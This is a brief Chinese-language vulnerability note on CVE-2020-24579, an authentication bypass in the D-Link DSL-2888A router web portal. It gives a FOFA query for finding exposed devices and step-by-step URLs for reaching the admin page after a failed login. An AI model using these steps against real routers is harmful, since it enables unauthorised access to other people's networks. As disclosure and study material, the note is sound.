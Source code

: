 # D-Link DSL-28881A 未授权访问 CVE-2020-24579

## 漏洞描述

路由器Web门户的身份验证不足，无法访问任何经过身份验证的管理页面，而无需输入正确的密码。位于同一网络上的恶意用户可以使用无效的凭据直接浏览到任何经过身份验证的管理页面。

## 漏洞影响

<a-checkbox checked>D-Link DSL-2888A</a-checkbox></br>

## FOFA

<a-checkbox checked>body="DSL-2888A"</a-checkbox></br>

## 漏洞复现

登录页面输入任意密码建立连接



![img](../../../.vuepress/public/img/link-1-20220314115142626.png)



```
跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

再请求URL http://xxx.xxx.xxx.xxx/WiFi.shtml 未授权访问后台
```

![img](../../../.vuepress/public/img/link-2.png)